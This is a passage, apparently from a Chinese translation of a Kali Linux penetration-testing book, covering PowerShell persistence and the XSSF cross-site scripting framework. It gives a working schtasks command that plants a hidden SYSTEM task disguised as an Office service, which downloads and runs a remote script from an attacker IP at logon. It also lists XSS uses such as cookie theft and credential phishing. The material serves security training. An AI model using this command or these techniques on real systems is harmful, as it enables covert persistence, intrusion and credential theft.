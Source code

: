可以使用`schtask`命令使`psh_web_delivery`持久化。以下命令将创建一个计划任务`MSOfficeMngmt`，该任务将在登录时实现`powershell.exe`（默认情况下位于`Windows\system32`目录中）：

```
schtasks /create /tn MSOfficeMngmt /tr "powershell.exe -WindowsStyle hidden -NoLogo -NonInteractive -ep -bypass -nop -c 'IEX ((new-object net.webclient).downloadstring (''http://192.168.1.104:4444/boom'''))'" /sc onlogon /ru System

```

Kali 的 PowerSploit 目录中可以找到用于支持后期利用活动的额外 PowerShell 脚本。尽管 PowerShell 具有灵活性，但它也有一些缺点。

例如，如果最终用户在应用持久性机制之前关闭包含宏的文档，则连接将丢失。

更重要的是，诸如 VBScript 和 PowerShell 之类的脚本只对 Microsoft 环境有用。为了扩大客户端攻击的范围，我们需要寻找一个通用的客户端漏洞，无论其操作系统环境如何都可以利用。这种漏洞的一个特例就是跨站脚本攻击。

# 跨站脚本框架

**跨站脚本**（**XSS**）漏洞据报道是网站中发现的最常见的可利用漏洞。据估计，它们存在于高达 80％的所有应用程序中。

XSS 漏洞发生在应用程序（通常是基于 Web 的）违反了被称为**同源策略**的信任概念，并显示了未经消毒以删除恶意语句的用户提供的内容。

至少有两种主要类型的 XSS 漏洞：**非持久**和**持久**。

最常见的类型是非持久或反射漏洞。当客户端提供的数据立即被服务器用于显示响应时，就会发生这种漏洞。这种漏洞的攻击可以通过电子邮件或第三方网站提供看似引用受信任网站但包含 XSS 攻击代码的 URL 来发生。如果受信任的网站容易受到这种特定攻击的影响，执行该链接可能导致受害者的浏览器执行一个恶意脚本，可能导致妥协。

持久（存储）XSS 漏洞发生在攻击者提供的数据被服务器保存，然后在用户浏览过程中永久显示在受信任的网页上。这通常发生在允许用户发布 HTML 格式消息的在线留言板和博客上。攻击者可以在网页上放置一个对传入用户不可见的恶意脚本，但会危害访问受影响页面的访客。

Kali Linux 上存在一些工具用于查找 XSS 漏洞，包括 xsser 和各种漏洞扫描器。然而，有一些工具允许测试人员充分利用 XSS 漏洞，展示了这种弱点的严重性。

**跨站脚本框架**（**XSSF**）是一个多平台安全工具，利用 XSS 漏洞与目标创建通信渠道，支持包括：

+   对目标浏览器进行侦察（指纹识别和先前访问的 URL）、目标主机（检测虚拟机、获取系统信息、注册表键和无线键）以及内部网络。

+   向目标发送警报消息弹出。这种简单的“攻击”可以用来演示 XSS 漏洞，但更复杂的警报可以模仿登录提示并捕获用户身份验证凭据。

+   窃取使攻击者能够冒充目标的 Cookie。

+   将目标重定向以查看不同的网页。敌对的网页可能会自动下载一个漏洞利用到目标系统上。

+   加载 PDF 文件或 Java 小程序到目标，或从 Android 移动设备中窃取数据，如 SD 卡内容。

+   发动 Metasploit 攻击，包括`browser_autopwn`，以及拒绝服务攻击。

+   发动社会工程攻击，包括自动完成窃取、点击劫持、Clippy、假闪存更新、网络钓鱼和标签窃取。

此外，**XSSF 隧道**功能允许攻击者冒充受害者并使用其凭据和会话浏览网站。这可以是访问内部企业内部网的有效方法。

API 有很好的文档，允许轻松创建新的攻击模块。由于它是用 Ruby 编写的，API 与 Metasploit Framework 集成，允许攻击者发动额外的攻击。

要使用 XSSF，必须安装并配置以支持以下步骤的攻击：

1.  XSSF 不随 Kali 一起提供。首先，用户必须打开一个终端窗口，并使用以下命令设置适当的目录：

```
root@kali:~# cd /opt/metasploit/apps/pro/msf3

```
